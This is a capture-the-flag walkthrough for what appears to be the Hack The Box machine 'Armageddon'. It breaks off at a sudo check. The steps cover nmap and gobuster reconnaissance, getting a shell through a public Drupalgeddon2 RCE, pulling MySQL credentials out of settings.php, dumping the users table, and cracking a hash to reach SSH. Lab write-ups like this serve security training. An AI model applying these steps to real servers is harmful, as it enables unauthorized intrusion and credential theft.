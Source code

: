 1. Connect the box, get IP.
2. Do a nmap scan:
    ```bash
    nmap -A -Pn 10.10.10.233
    ```

    ![](./images/armageddon1.png)

3. Run gobuster for directory bruteforcing:
    ```bash
    gobuster dir -u 10.10.10.233 -w /usr/share/wordlists/dirb/common.txt -z -t 100
    ```

    ![](./images/armageddon2.png)

4. Visit the website 'http://10.10.10.233:80/'. It looks like this:  

    ![](./images/armageddon3.png)  

5. Use [this RCE](https://github.com/dreadlocked/Drupalgeddon2) to get a web-shell.
6. In the './sites/default/settings.php' file, there is the username and password for MySQL:
    ```
    username: drupaluser
    password: CQHEy@9M*m23gBVj
    ```
7. Run the following command to show databases:
    ```bash
    mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
    ```
8. There's a database named drupal, further looking we find a table named 'users' in it, and columns name, mail and pass in it. Get those:
    ```bash
    mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'select name,pass,mail from drupal.users;'
    ```
    We get this:
    ```
    brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu
    ```
    Crack it using John to get ssh creds:
    ```
    brucetherealadmin:booboo
    ```
    Login to SSH and get 'user.txt'.
9. Run sudo -l, get this:  

    ![](./images/armageddon4.png)
    